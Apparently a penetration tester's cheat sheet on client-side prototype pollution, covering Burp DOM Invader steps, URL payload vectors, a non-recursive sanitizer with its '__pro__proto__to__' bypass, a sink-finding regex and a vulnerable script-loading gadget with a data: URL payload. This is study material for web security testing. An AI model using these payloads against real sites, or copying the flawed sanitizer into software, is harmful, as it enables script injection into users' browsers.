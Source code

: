 [#](#) Dom Invader

## Prototype Pollution (DOM Invader)

Note: sometimes there's sanitizer blocking the detection (see manual)

1. Turn On Dom Invader
2. Attack -> Turn On Prototype Attacks
3. Browse normally the app and check the Dom tab
4. Scan for gadget -> Exploit -> If Not working, look at the sink value -> Any trailing caracter -> Add - or ; after the payload

## Manual

Find Prototype Source:

1. Prototype pollution vectors
2. 
    ```
    /?__proto__.foo=bar
    /?__proto__[foo]=bar
    /?constructor.prototype.foo=bar
    ```
3. Console: `Object.prototype`

    Injection

    `{foo: 'bar', __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}`

    No Injection:

    `{ __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}`

        Is there a santizer?

            ```
            // Vulnerability: not recurrent replace
            // Exploit: __pro__proto__to__ (i.e.: sandwich)
            
            function sanitizeKey(key) {
                let badProperties = ['constructor','__proto__','prototype'];
                for(let badProperty of badProperties) {
                    key = key.replaceAll(badProperty, '');
                }
                return key;
            }
            ```
            
Find a Sink:

```
(document\.|window\.)(write|writeln|createElement|domain)|location|eval|setTimeout|setInterval|innerHTML|outerHTML|insertAdjacentHTML|window\.open|onevent|Function
```


```
async function searchLogger() {

    // Object
    
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
    
        // Sink -> /?__proto__[transport_url]=data:,alert(1);
        
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

